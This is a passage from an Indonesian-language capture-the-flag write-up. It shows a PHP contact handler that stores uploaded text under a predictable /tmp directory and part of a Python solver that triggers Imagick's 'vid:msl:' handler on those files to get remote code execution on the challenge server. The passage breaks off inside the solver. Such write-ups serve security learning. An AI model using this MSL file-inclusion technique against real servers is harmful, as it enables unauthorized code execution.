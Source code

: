 Tapi pertama-tama kita harus bisa mengupload file ke server. Di sini kita menggunakan fungsi send() pada class Contact() untuk mengupload file ke server:

```php
class Contact
{
    ...snip...
    function send()
    {
        $hasName = isset($_POST['name']);
        $hasBody = isset($_POST['body']);
        if ($hasName && $hasBody) {
            $body = $_POST['body'];

            $dirname = "/tmp/" . md5($_POST['name']) . time();
            if (!is_dir($dirname)) {
                mkdir($dirname);
            }
            
            $filename = md5(rand(100000000000, 999999999999)) . ".txt";

            file_put_contents($dirname . "/" . $filename, $body);

            echo "Berhasil Mengirimkan Pesan";
        } else {
            echo "Terjadi Kesalahan";
        }
    }
...snip...
```

Karna kita perlu mengeksekusi file mls kita perlu tau path file tersebut. Jadi untuk itu kita perlu mendapatkan $dirname yang dihasilkan dari md5 nama, dan time().

Untuk md5 nama kita hanya perlu membuat hash md5 dari nama yang kita inputkan, untuk time() kita  bisa menggunakan response Date yang diberikan server.

![](Pasted%20image%2020221222214414.png)

Setelah semua data yang diperlukan terkumpul, kita bisa langsung mengeksploitasi server.
berikut solver yang saya gunakan untuk mendapatkan rce pada challenge ini.

```python
import requests
from os import urandom
from binascii import b2a_hex
from hashlib import md5
from subprocess import check_output
from readline import redisplay

URL = "https://akasha.hackthesystem.pro/"


def execute_msl(hash, time_stamp, url=URL):
    time = time_stamp
    print(f"[+] folder name: {hash}{time}")
    res = requests.get(
        f"{url}/index.php?module=Imagick&action=vid:msl:/tmp/{hash}{time}/*.txt")
    if "Terjadi Kesalahan" in res.text:
        return False
    return True
```